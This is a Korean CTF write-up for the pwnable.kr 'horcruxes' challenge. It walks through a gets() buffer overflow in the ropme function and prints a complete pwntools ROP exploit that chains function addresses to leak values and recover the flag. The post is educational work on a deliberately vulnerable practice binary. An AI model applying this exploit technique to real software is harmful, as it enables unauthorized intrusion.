 ```yaml
---
layout: post
title: "[pwnable.kr] horcruxes 풀이"
date: 2018-09-04 19:01
categories: "[Pwn]pwnable.kr"
tags: "#UnKN0wn"
---
```

>## horcruxes - [7pt]
### Voldemort concealed his splitted soul inside 7 horcruxes.
### Find all horcruxes, and ROP it!
### author: jiwon choi<br><br>
### ssh horcruxes@pwnable.kr -p2222 (pw:guest)

---

ROP를 사용하는 문제라네요

ssh로 연결해보면 `horcruxes`와 `readme`라는 파일이 있어요.

`horcruxes`를 IDA를 이용해 분석하기위해 scp 명령어를 사용했어요

> $ scp -P 2222 horcruxes@pwnable.kr:/home/horcruxes/horcruxes ~/

# 1. 프로그램 분석

{: refdef: style="text-align: center;"}
![init_ABCDEFG](/pic/pwnable_kr/horcruxes/hor_init_ABCDEFG.png)
{: refdef}

<center> ___init_ABCDEFG 함수___ </center>

전역변수 a,b,c,d,e,f,g의 값을 랜덤으로 정해주고 모든 합을 sum에 저장하는 함수인거 같네요

{: refdef: style="text-align: center;"}
![ropme](/pic/pwnable_kr/horcruxes/hor_ropme.png)
{: refdef}

{: refdef: style="text-align: center;"}
***ropme 함수*** 
{: refdef}

각 A,B,C,D,E,F,G 함수는 각각의 변수들의 값을 출력해주는 함수가 있어요

이리고 이 모든 변수값을 더한 sum 값과 gets로 입력한 값이 같으면 flag를 출력해주는 함수네요

그런데 이 각각의 함수에서 변수 값을 출력하기위해서는

계속 랜덤값으로 바뀌는 각각의 변수 값을 알아야하는데

불가능해요

그런데 `gets(s)` 부분에서 BOF가 일어나서 return 주소를 바꿔줄 수 있어요

이 부분을 이용해 exploit 코드를 짜봅시다

# 2. Exploit

```python
from pwn import *
#context.log_level='debug'

#connect ssh
s = ssh("horcruxes", "pwnable.kr", port=2222, password="guest")
#connect nc
n = s.remote("localhost", 9032)

#function address
func_A = 0x0809FE4B
func_B = 0x0809FE6A
func_C = 0x0809FE89
func_D = 0x0809FEA8
func_E = 0x0809FEC7
func_F = 0x0809FEE6
func_G = 0x0809FF05
ROPME = 0x0809FFFC

n.recvuntil('Menu:')
n.sendline('0')
n.recvuntil('earned? : ')

#ROP
payload = ""
payload += "A"*120      #buffer + sfp
payload += p32(func_A)  #return
payload += p32(func_B)
payload += p32(func_C)
payload += p32(func_D)
payload += p32(func_E)
payload += p32(func_F)
payload += p32(func_G)
payload += p32(ROPME)

n.sendline(payload)
total = 0

#calculate EXP
for i in range(0,7):
    n.recvuntil('EXP +')
    total += int(n.recvuntil(')')[:-1])
    log.info('total = ' + str(total))

#return to function 'ROPME'
n.recvuntil("Menu:")
n.sendline("0")
n.recvuntil("earned? : ")
n.sendline(str(total))

log.info("flag is : " + n.recv())
```

이런식으로 exploit 코드를 짜니 flag가 나오긴 했어요

그런데 한번씩 flag가 안나올 때가 있는데 아마 EXP값이

음수가 나올 경우가 있기 때문인거 같네요 

![exploit](/pic/pwnable_kr/horcruxes/hor_ex.png)

